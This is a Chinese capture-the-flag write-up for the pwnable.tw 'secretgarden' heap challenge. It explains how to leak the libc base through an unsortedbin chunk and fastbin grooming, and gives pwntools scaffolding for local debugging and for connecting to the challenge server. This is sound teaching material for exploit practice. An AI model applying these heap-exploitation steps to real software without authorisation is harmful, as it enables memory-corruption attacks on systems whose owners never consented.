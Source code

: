 ```python
# base addr
gdb_text_base = int(os.popen("pmap {}".format(io.pid)).readlines()[1][4:16], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc".format(io.pid)).readlines()[0][4:16], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add     = lambda len,name,color :  (sla("choice : ","1"),sla("name :",str(len)),sla("flower :",name),sla("flower :",color))
show    = lambda                :  (sla("choice : ","2"))
rm      = lambda num            :  (sla("choice : ","3"),sla("garden:",str(num)))
clear   = lambda                :  (sla("choice : ","4"))



io.interactive()

```

## 利用

### 堆排布泄漏libc

我们现在拥有地址写的能力，但是不知道写哪，所以首先要做的是泄漏地址信息，思路是free一个unsortedbin，通过main_arena泄漏libc基址，因为我们del花后，存在位会清空，所以我们还是需要申请回来才能输出信息，同时add时通过read函数来获取输入，不会添加截断字符，所以满足泄漏条件

需要注意有两点：

1. 我们还需要malloc一个fastbin来防止我们的unsortedbin被top chunk合并
2. 我们再次申请的时候题目并不会用之前申请的位于flower_list[0]的0x28的堆块，会再次申请一个堆块放在flower_list[1]中，所以我们需要预备好一个0x30的堆块放到fastbin中准备使用，以免我们放入unsortedbin中的堆块被切割

这里本地的libc和题目给的libc并不一样，但是我们只需要更改`io = process(elf.path,env={"LD_PRELOAD" : libc.path})`的libc就可以强行加载我们所需的libc（猜测大版本需要一样）

那我找了一下午题目的libc版本究竟图个啥....淦

这里使用的是gdb的gef插件，看堆感觉方便一点

```python
#!/usr/bin/env python3
from pwn import *
import sys, time

#context(arch='amd64',os='linux',log_level='debug')
#context.log_level = 'debug'

debug = 1
if debug:
	elf = ELF("./secretgarden")
	libc = ELF("./libc_64.so.6")
	io = process(elf.path,env={"LD_PRELOAD" : libc.path})
else:
	elf = ELF("./secretgarden")
	libc = ELF("./libc_64.so.6")
	io = remote("chall.pwnable.tw",10203)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
```
